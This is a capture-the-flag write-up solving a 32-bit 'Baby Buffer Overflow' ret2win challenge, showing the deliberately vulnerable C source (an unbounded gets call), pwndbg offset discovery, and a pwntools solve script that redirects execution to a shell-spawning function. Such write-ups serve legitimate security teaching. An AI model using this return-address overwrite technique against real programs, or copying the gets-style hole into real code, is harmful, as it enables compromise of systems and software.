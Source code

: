 ```yaml
---
title: Baby Buffer Overflow - 32bit
author: saturn
pubDate: 2024-10-17
toc: true
share: true
ogImage: true
---
```


# Baby Buffer Overflow - 32bit 

<p align="center">
  <img src="../../assets/dom-images/logo.jpg" alt="Dombusters" width="25%">
</p>

## Description

Author: @aenygma

Can you command this program to where it cannot go?
To get the flag, you must somehow take control of its excecution.
Is it even possible?

Press the Start button on the top-right to begin this challenge.
Attachments: 

`babybufov`, `babybufov.c`

## Solution

We're given a source file, `babybufov.c`, containing this:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

So, we can see that this is a ret2win, so this is trivial! Let's just get the addresses we need in `gdb`, and then we have an easy flag!

```bash
pwndbg> cyclic 120
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
pwndbg> r
Starting program: /home/strn/babybufov
zsh:1: no such file or directory: /home/strn/babybufov
During startup program exited with code 127.
pwndbg>
```

... the fuck?


Turns out, this is not an issue of the executables location. We can run `file` against it with no problem, but executing the file somehow makes it nonexistent again? 

Turns out, this is a problem of the libraries of the executable. We can use `ldd` to check which libraries it tries to link to.
```
$ ldd babybufov
	linux-gate.so.1 (0xeefe9000)
	libc.musl-x86.so.1 => not found
```

Alright, so we have the linux-gate.so.1, but we're missing MUSL. Installing MUSL via `sudo pacman -S musl` doesn't fix our problem, so what we have to do is install MUSL via the AUR via `paru -S aur/i386-musl`.

Let's go back to GDB.

```bash
$  gdb-pwndbg ./babybufov
pwndbg> cyclic 120
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
pwndbg> r
Gimme some data!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab

Program received signal SIGSEGV, Segmentation fault.
0x61616168 in ?? ()
# SNIP
00:0000│ esp 0xffffd0d0 ◂— 'iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab'
```

We can get the offset by using the `cyclic` function.

```bash
pwndbg> cyclic -l iaaa
Finding cyclic pattern of 4 bytes: b'iaaa' (hex: 0x69616161)
Found at offset 32
```

Because this is a 32-bit binary, we have to subtract 4 bytes from what we get here, so the offset is *actually* 28. 

Here's the solve script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./babybufov')

exe = context.binary

payload = b'A' * 28
payload += p32(0x8049006) # objdump -d ./babybufov | rg "ret"
payload += p32(exe.symbols['target'])


io = process()

io.sendline(payload)

io.interactive()
```


---
**Dombusters**: _Writeup written by saturn_
